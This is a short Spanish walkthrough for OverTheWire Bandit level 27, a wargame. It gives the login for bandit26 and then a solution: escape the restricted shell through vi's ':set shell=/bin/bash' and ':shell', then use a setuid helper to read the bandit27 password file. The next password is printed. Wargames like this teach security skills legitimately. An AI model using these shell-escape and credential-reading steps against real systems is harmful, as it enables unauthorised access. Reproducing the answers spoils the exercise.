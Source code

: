 ## Level 27
## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso
	Server: bandit.labs.overthewire.org
	User: bandit26
	Password: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
	
## Solución
	(Reducir pantalla y presionar tecla v)
	:set shell=/bin/bash
	:shell
	ls -la
	./bandit27-do cat /etc/bandit_pass/bandit27

	YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
## Notas adicionales

## Referencias